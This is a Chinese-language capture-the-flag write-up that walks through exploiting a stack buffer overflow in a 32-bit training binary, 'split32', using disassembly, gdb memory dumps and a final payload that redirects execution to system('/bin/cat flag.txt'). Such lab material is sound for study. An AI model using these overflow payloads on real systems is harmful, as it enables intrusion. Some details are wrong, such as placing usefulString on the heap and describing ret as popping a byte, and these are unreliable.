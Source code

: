 ## Checksec
| Short | Full | Description |
| --- | --- | --- |
| RELRO | RELocation Read Only | GOT 是否可写 |
| Stack | CANARY | Canary 是否启用（棧溢出检测） |
| NX | No-eXecute | Stack 页是否可执行 |
| PIE / PIC | Position Independent Executable / Code | 需搭配ASLR才能产生作用，细节见第二个section |

本题的 checksec 结果：
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```
PIE 没启用，所以至少可以确定 bss, text, data 三个 segments 的位址固定。

<br>

## ASLR 与 PIE 的效果
Linux 中 ASLR 分为三个级别：

| Level | Randomized |
| --- | --- |
| 0（关闭） | - |
| 1（半随机） | shared libraries, stack |
| 2（全随机） | shared libraries, stack, heap |

<br>

PIE (Position Independent Executable) 是 gcc/g++ 中其中一个flag。

若启用，编译出来的执行档可被读取在内存中的任意位址并成功运行。

| Enabled | Randomized Targets |
| --- | --- |
| No | - |
| Yes | bss, text, data, heap |

<br>

## Reverse
列舉一下 functions
```
0x0804857b  main
0x080485f6  pwnme
0x08048649  usefulFunction
```

先逆向 pwnme()，发现其中一个被呼叫的函数是 fgets(buf, 0x60, stdin)。

buf 位于 ebp-0x28 处，若读入>0x28字节就会发生栈溢出。
```
0x0804862f <+57>:  mov    eax,ds:0x804a080
0x08048634 <+62>:  sub    esp,0x4
0x08048637 <+65>:  push   eax
0x08048638 <+66>:  push   0x60
0x0804863a <+68>:  lea    eax,[ebp-0x28]
0x0804863d <+71>:  push   eax
0x0804863e <+72>:  call   0x8048410 <fgets@plt>
```

我们可以通过覆盖 return address 跳转。但是，要跳转到哪里呢？逆向一下 usefulFunction()
```
0x08048649 <+0>:     push   ebp        # setup x86 stack frame
0x0804864a <+1>:     mov    ebp,esp    # setup x86 stack frame
0x0804864c <+3>:     sub    esp,0x8    # allocate space on stack
0x0804864f <+6>:     sub    esp,0xc    # allocate space on stack （为什么要分两步做。。。）
0x08048652 <+9>:     push   0x8048747  # push system() 的参数，参数是一个 char*，一个字串的头位址
0x08048657 <+14>:    call   0x8048430 <system@plt>  # 呼叫 system()：相当于 push eip
0x0804865c <+19>:    add    esp,0x10
0x0804865f <+22>:    nop
0x08048660 <+23>:    leave
0x08048661 <+24>:    ret
```

打印 system() 的参数，发现是 "/bin/ls" 这个字串。但这只能列出 cwd 下的文件，而我们目标是看到 flag，所以要想办法替换这个字串。
0x8048747 我们没办法覆盖到，所以要采取别的办法。
```
pwndbg> x/1s 0x8048747
0x8048747:      "/bin/ls"
```

开一个新的 terminal，用 strings 指令看一下 split32 包含什么字串
```
$ strings split32 | "bin"
/bin/ls
/bin/cat flag.txt
```

那么这个字串位址是啥。。。？我们可以开一个新的 gdb，得到 usefulString 位于 0x0804a030

可以自己用 x 指令确认一下是不是 "/bin/cat flag.txt" 字串，这边就不写这个流程了。
```
pwndbg> info variables
（省略若干条输出）
0x0804a030  usefulString
（省略若干条输出）
```

现在我们基本的思路就是：

1. 在 pwnme() 通过 stack bof 覆盖 return address
2. 执行到 ret 时，跳转 usefulFunction() 里面的 call system()
3. 为什么直接跳到 call system() 而不是它前面一点的地方？因为前一行是 push "/bin/ls"，我们不要这个参数
4. 既然不要这个参数，我们就得自己塞个参数是吧？那么要塞哪里呢？
5. ret = `pop eip`，然后下一条指令就是 `call system()`
6. 所以 call 之前的 esp 处，就是我们要塞 system() 参数的地方！

继续看 pwnme() 里面 fgets() 之后的汇编，发现有个非常sb的行为，居然 add esp, 0x10！？？？
```
0x0804863e <+72>:  call   0x8048410 <fgets@plt>
0x08048643 <+77>:  add    esp,0x10
0x08048646 <+80>:  nop
0x08048647 <+81>:  leave
0x08048648 <+82>:  ret
```

我们只好进行动态分析。断点设 *pwnme+77 并运行。输入几个'A'，然后看看 esp 后内存的内容。

我们可以发现 esp += 0x10 之后，esp正好就位于 buf 的头
```
pwndbg> x/25xw $esp
0xffffc750: 0xffffc760  0x00000060  0xf7f955c0  0xa33cf400
0xffffc760: 0x41414141  0x41414141  0x0000000a  0x00000000
0xffffc770: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffc780: 0x08048706  0x00000000  0xffffc798  0x080485d9
                                       ^ ebp      ^ ebp+4
0xffffc790: 0x00000000  0xffffc7b0  0x00000000  0xf7dcda11
```

接着分析 leave。
1. esp 会指向 ebp 所指向之处 (mov ebp, esp)
2. ebp 接着会变成「进 pwnme() 前的 ebp」 (pop ebp)

执行完 leave 后，esp 在：
```
0xffffc750: 0xffffc760  0x00000060  0xf7f955c0  0xa33cf400
0xffffc760: 0x41414141  0x41414141  0x0000000a  0x00000000
0xffffc770: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffc780: 0x08048706  0x00000000  0xffffc798 [0x080485d9] <-- esp
0xffffc790: 0x00000000  0xffffc7b0  0x00000000  0xf7dcda11
```

接着分析 ret。
1. ret = pop eip，所以会再 pop 一个 byte，也就是说执行 ret 后 esp 会再 += 4

执行完 ret 后，esp 在：
```
0xffffc750: 0xffffc760  0x00000060  0xf7f955c0  0xa33cf400
0xffffc760: 0x41414141  0x41414141  0x0000000a  0x00000000
0xffffc770: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffc780: 0x08048706  0x00000000  0xffffc798  0x080485d9
0xffffc790:[0x00000000] 0xffffc7b0  0x00000000  0xf7dcda11
               ^ esp
```

假设我们通过 bof，覆盖了 return address，现在 eip 得是 call system() 那行的位址了（0x08048657）

call 会直接 push eip, 然后把 eip 设成被呼叫的函数的位址。我们知道进入一个 function 后，return address 下就是接着参数。

因此！！！我们要塞的参数，就是在上图那个 esp 处！！！！！！！！payload 怎么写呢？复习一下我们 buffer 的样子
```
0xffffc760: 0x41414141  0x41414141  0x0000000a  0x00000000
0xffffc770: 0x00000000  0x00000000  0x00000000  0x00000000
0xffffc780: 0x08048706  0x00000000  0xffffc798  0x080485d9
0xffffc790: 0x00000000
```

所以 payload 是 `11 * "AAAA"` + `usefulFunction() 里 call system() 那行指令的位址` + `usefulString 的位址`

因为 PIE 没开启，所以 .text 和 .data 位址都是固定的（上面我们用到的那两个位址，一个在 .text，一个在 .heap），这在编写 exploit 的时候方便许多。

gdb 中进行 pwn：
```
pwndbg> r <<< $(python2 -c 'print 11 * "AAAA" + "\x57\x86\x04\x08" + "\x30\xa0\x04\x08")
ROPE{a_placeholder_32byte_flag!}
```

exploit 脚本请看 exploit.py

---

顺带一提，怎么知道 usefulString 在 .heap?
```
pwndbg> info address usefulString
Symbol "usefulString" is at 0x804a030 in a file compiled without debugging.
```
pwndbg 会有颜色提示，0x804a030 是蓝色的字，代表在 heap 上。
